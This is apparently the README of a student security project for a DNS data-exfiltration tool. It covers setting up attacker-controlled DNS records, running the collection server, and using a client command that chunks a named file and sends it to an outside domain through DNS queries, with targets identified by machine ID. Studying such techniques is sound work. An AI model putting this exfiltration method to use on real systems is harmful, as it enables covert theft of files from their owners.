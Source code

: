 # DNS Data Exfiltration

## Setting Up DNS Records

In order for DNS exfiltration to work, we need to set up our own DNS server that is the authoritative nameserver for some domain.

1. Create an A record pointing to the IP address of the DNS server to exfiltrate data to.
1. Create an NS record pointing to the previously created A record.

   This NS record will be used as the domain for all of our DNS queries.

## Running the DNS Exfiltration Server

DNS requests that reach the DNS exfiltration server are parsed according to the specified format.
Multiple DNS requests are processed and the data inside the files being exfiltrated are reconstructed and written to disk with their original file paths in `./exfiltrated-data/<machine ID>/<file path>`.
This preserves the structure of the files when exfiltrating directories of files.

Example of running the DNS exfiltration server:
```sh
make compile
sudo ./dns-exfiltration-server -n cs5231.ianyong.com
```

Note that root privileges are required to bind to port 53 as it is as well-known port for DNS.
Once the server has binded to the port, it will drop its privileges to that of the calling user.

In addition, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must also be passed in as a command line argument.
This is necessary for the server to know which parts of the DNS request name correspond to the data being exfiltrated.

## Running the DNS Exfiltration Client

The client takes in a file path, reads the file, and breaks its content up into chunks to exfiltrate over DNS.

Example of running the DNS exfiltration client:
```sh
make compile
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt
```

Similar to the DNS exfiltration server, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must be passed in as a command line argument.
The client also takes in the path of the file to be exfiltrated.

## Design Decisions

### Identifying Targets

Targets cannot be identified via the IP address seen by the server.
This is because our DNS server will not be the local DNS server that the target talk to.
As such, regardless of the DNS query type (iterative or recursive), our DNS server never talks directly to the target.

In addition, some local DNS servers have a range of IP addresses which they use to communicate to other DNS servers.
Given the connectionless nature of UDP (the transport protocol used by DNS), every DNS request that we receive from the same target can come from different IP addresses.

In order to be able to handle simultaneous traffic from multiple hosts, as well as to uniquely identify targets which we exfiltrate data from, we make use of the machine ID of the target machine.
The machine ID is a unique string that is set during installation of the operating system.
We make use of the [machineid](https://github.com/denisbrodbeck/machineid) library to retrieve the machine ID from the target.
